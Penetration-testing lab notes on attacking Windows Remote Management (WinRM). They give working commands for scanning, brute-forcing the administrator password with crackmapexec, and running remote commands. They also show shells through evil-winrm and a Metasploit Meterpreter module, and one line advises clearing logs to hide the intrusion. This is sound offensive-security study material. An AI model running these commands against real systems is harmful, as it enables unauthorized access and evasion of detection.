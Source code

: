 - WinRM (Windows Remote Management) is not configured to be run by default, and needs to be explicitly enabled and configured in order for it to work.
- Windows Remote Management (WinRM) is a Windows remote management protocol that can be used to facilitate remote access with Windows systems over HTTP(S).
- Microsoft implemented WinRM in Windows in order to make life easier for System Administrators.
- WinRM is typically used in the following ways:
	- Remotely access and interact with Windows hosts on a local network.
	- Remotely access and execute commands on Windows systems.
	- Manage and configure Windows systems remotely.
- WinRM typically uses TCP port 5985 and 5986 (in case of data transmission being done over HTTPS, instead of HTTP).

WinRM Exploitation
- WinRM implements access control and security for communication between systems through various forms of authentication.
- Authentication is generally performed through a system's user account credentials, alternatively a password hash can also be provided to authenticate oneself and gain access to WinRM.
- We can utilize a utility called `crackmapexec` to perform a brute-force on WinRM in order to identify users and their passwords as well as execute commands on the target system.
- We can also utilize a ruby script called `evil-winrm` to obtain a command shell session on the target system.

Practical Demonstration
- `nmap -sV 10.2.18.45 -T4`
- The default Nmap scan is unable to detect WinRM, since the ports that WinRM runs on by default fall out of the port range of a default Nmap scan, with no port range specified during command execution.
- `nmap -sV 10.2.18.45 -p 5985,5986`
- Windows doesn't have an explicit service banner for WinRM, so it is generally recommended to ignore the service version being displayed in a Nmap version detection scan, for the WinRM service.
- Exploitation using `crackmapexec` (Provides command execution on the target system)
	- `crackmapexec`
	- `crackmapexec` can not only be used to attack WinRM, but also MSSQL, SMB and SSH.
	- `crackmapexec winrm 10.2.18.45 -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`
	- We are only targeting the administrator account in this attack because:
		- The administrator account is created during Windows installation by default, and as such is present on almost all Windows installations.
		- The administrator account is typically the user account used by System Administrators to use WinRM.
		- If we gain access to the administrator account, we will have elevated privileges by default upon exploitation, and as such would not have to perform the process of privilege escalation.
	- When `crackmapexec` is run to perform the brute-force attack we can observe that it provides an informational message about the tool connection to a service known as `wsman`, this is because WinRM itself is an implementation of the Windows Management API, also known as `wsman`.
	- `crackmapexec winrm 10.2.18.45 -u administrator -p tinkerbell -x "whoami"`
	- `crackmapexec winrm 10.2.18.45 -u administrator -p tinkerbell -x "systeminfo"`
	- Since we are not utilizing any malicious payloads in the exploitation process, and are relying on brute-force attacks to find legitimate credentials to logon with, this attack can be considered relatively stealthy, once we get access to the system, we can utilize our access to clear the logs of our activity during the exploitation phase.
	- Since WinRM is explicitly enabled on the system, a firewall rule or exception would have been added so that one can communicate with the system via WinRM without restrictions.
- Exploitation using Evil-WinRM (Provides a PowerShell session on the target system)
	- `evil-winrm.rb -u administrator -p 'tinkerbell' -i 10.2.18.45`
	- `whoami`
	- `ipconfig`
	- `net user`
- Exploitation using the Metasploit Framework (Provides a Meterpreter session on the target system)
	- `service postgresql start && msfconsole`
	- `search winrm_script_exec`
	- `use exploit/windows/winrm/winrm_script_exec`
	- `options`
	- `set RHOSTS 10.2.18.45`
	- `set RPORT 5985`
	- `set USERNAME administrator`
	- `set PASSWORD tinkerbell`
	- `set FORCE_VBS true`
	- `exploit`
	- In case this particular exploit doesn't work, we might have to keep retrying it.
	- In case the Meterpreter session is unstable or lacks appropriate privilege, the exploit module will attempt to migrate to specified system level processes to stabilize the shell and elevate privileges.
	- Meterpreter Session
		- `sysinfo`